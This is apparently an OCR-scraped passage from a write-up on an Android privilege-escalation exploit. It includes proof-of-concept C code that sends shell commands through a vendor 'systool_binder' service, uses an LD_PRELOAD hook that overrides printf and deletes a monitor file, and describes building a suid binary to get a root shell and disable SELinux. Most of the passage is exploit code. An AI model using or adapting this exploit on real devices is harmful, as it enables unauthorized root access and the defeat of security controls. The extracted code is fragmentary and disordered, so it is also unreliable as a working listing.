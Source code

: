 LD_PRELOAD

`LD_PRELOAD`

. Finally, to pop a fully interactive shell, we use mount without

nosuid

`nosuid`

to create a suid binary. See the code below for PoC:

struct binder_state *g_binder_state;

bs = binder_open(128*1024);

fprintf(stderr, "failed to open binder driver\n");

bio_init(&a, &b, 0x200, 4);

bio_put_string16_x(&a, "android.os.IServiceManager");

bio_put_string16_x(&a, "systool_binder");

int status = binder_call(bs, &a, &c, 0, 2);

int status2 = bio_get_ref(&c);

binder_acquire(bs, status2);

void systoolExecShellCmdV2(char* src) {

bio_init(&msg, buf, 0x200, 4);

bio_put_string16_x(&msg, "SystoolBinder");

bio_put_uint32(&msg, 3); // cmd

bio_put_uint32(&msg, 1); // subcmd

bio_put_uint32(&msg, 1); // num arguments

bio_put_string16_x(&msg, src);

int status = binder_call(g_binder_state, &msg, &reply, target, 18);

int ret1 = bio_get_uint32(&reply);

int ret2 = bio_get_uint32(&reply);

binder_done(g_binder_state, &msg, &reply);

printf("ExecShellCmdV2: ret1=%d ret2=%d\n", ret1, ret2);

int printf(const char* __fmt, ...) {

fprintf(stderr, "[*] Hello from PID %d\n", pid);

readlink("/proc/self/exe", linkbuf, 0x100);

fprintf(stderr, "[*] /proc/self/exe is pointing at %s\n", linkbuf);

system("rm /tmp/monitor.bin");

fprintf(stderr, "[*] disabling fs selinux\n");
